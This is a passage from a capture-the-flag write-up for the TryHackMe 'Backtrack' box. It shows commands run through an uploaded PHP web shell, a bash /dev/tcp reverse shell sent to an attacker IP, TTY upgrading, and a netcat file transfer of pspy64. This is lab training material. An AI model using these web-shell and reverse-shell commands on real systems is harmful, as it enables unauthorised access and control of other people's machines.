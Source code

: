 Once the file is uploaded, we can execute commands on the target as Orville.
```bash
┌──(pentester㉿kali)-[~/…/TryHackMe/Challenge/Backtrack/Misc File]
└─$ curl http://127.0.0.1:8080/shell.png.php?cmd=id        
uid=1003(orville) gid=1003(orville) groups=1003(orville)
```

We can now start a listener and execute a reverse shell on the target to gain access to the system as Orville.
```bash
┌──(pentester㉿kali)-[~/Desktop/TryHackMe/Challenge/Backtrack]
└─$ nc -lvnp 2345
listening on [any] 2345 ...
```

```bash
bash -i 'bash -i >& /dev/tcp/10.8.23.19/2345 0>&1'
┌──(pentester㉿kali)-[~/…/TryHackMe/Challenge/Backtrack/Misc File]
└─$ curl http://127.0.0.1:8080/shell.png.php?cmd=bash+-c+%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.8.23.19%2F2345%200%3E%261%22
```

We will notice a reverse connection to our listener and we can upgrade this shell to obtain a fully interactive TTY shell as shown below.
```bash
┌──(pentester㉿kali)-[~/Desktop/TryHackMe/Challenge/Backtrack]
└─$ nc -lvnp 2345                   
listening on [any] 2345 ...        
connect to [10.8.23.19] from (UNKNOWN) [10.10.242.37] 38170
bash: cannot set terminal process group (590): Inappropriate ioctl for device
bash: no job control in this shell
orville@Backtrack:/var/www/html$ python3 -c 'import pty;pty.spawn("/bin/bash")'
<tml$ python3 -c 'import pty;pty.spawn("/bin/bash")'
orville@Backtrack:/var/www/html$ ^Z
zsh: suspended  nc -lvnp 2345

┌──(pentester㉿kali)-[~/Desktop/TryHackMe/Challenge/Backtrack]
└─$ stty raw -echo;fg
[1]  + continued  nc -lvnp 2345
                               export TERM=xterm
orville@Backtrack:/home/orville$ ls
flag2.txt  web_snapshot.zip
```

## Post Exploitation

We can now enumerate the system using Orville access. We can transfer `pspy64` to the target to enumerate running jobs and cronjobs on the target.
```bash
orville@Backtrack:/tmp$ nc -lvnp 3333 > pspy64;chmod 755 pspy64 
Listening on 0.0.0.0 3333
Connection received on 10.8.23.19 46648
```

```bash
┌──(pentester㉿kali)-[~/…/TryHackMe/Challenge/Backtrack/Misc File]
└─$ nc -q 0 10.10.242.37 3333 < /usr/share/pspy/pspy64
```


[WARNING]: provided hosts list is empty, only localhost is available. Note that